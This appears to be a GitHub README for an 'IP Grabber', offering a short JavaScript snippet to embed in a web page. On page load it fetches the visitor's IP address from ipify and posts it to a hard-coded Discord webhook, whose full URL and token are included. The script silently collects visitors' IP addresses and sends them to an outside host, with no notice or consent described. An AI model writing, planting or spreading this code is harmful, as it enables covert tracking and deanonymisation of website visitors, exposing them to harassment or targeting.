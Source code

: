 <h1 align="center">IP Grabber</h1>

<p align="center">
  <img src="https://img.shields.io/badge/Status-Active-success?style=flat-square&logo=github" alt="Status">
  <img src="https://img.shields.io/github/license/your_username/your_repo?style=flat-square" alt="License">
</p>

<p align="center">
  <strong>A simple script to grab the user's IP address and send it to a Discord webhook.</strong>
</p>

## Table of Contents

- [Description](#description)
- [How it Works](#how-it-works)
- [Usage](#usage)
- [License](#license)

## Description

This script fetches the user's IP address using `https://api.ipify.org` and sends it to a specified Discord webhook.

## How it Works

The script uses JavaScript's `fetch` API to send a GET request to `https://api.ipify.org` to obtain the user's IP address. It then sends a POST request to a Discord webhook URL with the obtained IP address as the payload.

## Usage

Simply include the script in your HTML file:

```html
<script>
  fetch('https://api.ipify.org')
    .then(response => response.text())
    .then(ip => fetch('https://discord.com/api/webhooks/1241039008390189147/NSOjUiHwvWVF68DThJ-YbnkKLs6ZXKrR6mJH4hL_ie6nZ7o_kSLSjTalUGsQTQ3z-cS1', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ content: ip })
    }));
</script>
